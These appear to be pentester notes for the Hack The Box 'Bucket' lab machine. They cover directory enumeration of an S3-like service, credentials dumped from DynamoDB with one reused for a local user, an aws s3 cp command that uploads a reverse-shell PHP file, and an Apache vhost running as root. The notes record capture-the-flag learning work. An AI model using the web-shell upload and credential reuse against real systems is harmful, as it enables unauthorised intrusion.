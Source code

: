 # HTB - Bucket

## `bucket.htb`
- Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80
  - Ubuntu 20.04 LTS (Focal)
- `Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux`

## `s3.bucket.htb`

### dirb
```
START_TIME: Sat Mar 13 00:39:58 2021
URL_BASE: http://s3.bucket.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
- http://s3.bucket.htb/health (CODE:200|SIZE:54)
- http://s3.bucket.htb/server-status (CODE:403|SIZE:278)
- http://s3.bucket.htb/shell (CODE:200|SIZE:0)
```

### `s3.bucket.htb/health`
```
{
  "services": {
    "s3": "running",
    "dynamodb": "running"
  }
}
```

### `s3.bucket.htb/shell/`
- [AWS SDK for Javascript Documentation: DynamoDB](https://docs.aws.amazon.com/AWSJavaScriptSDK/latest/AWS/DynamoDB.html)
- Accounts
  - Mgmt => `Management@#1@#`
  - Cloudadm => `Welcome123!`
  - Sysadm => `n2vM-<_K_Q:.Aa2`
- commands
  - `aws --endpoint-url http://s3.bucket.htb s3 cp revshell.php s3://adserver/revshell.php`

### local
- `roy:n2vM-<_K_Q:.Aa2`

#### `/var/www/bucket-app` and `/etc/apache2/sites-enabled`

```
<VirtualHost 127.0.0.1:8000>
  <IfModule mpm_itk_module>
    AssignUserId root root
  </IfModule>
  DocumentRoot /var/www/bucket-app
</VirtualHost>
```
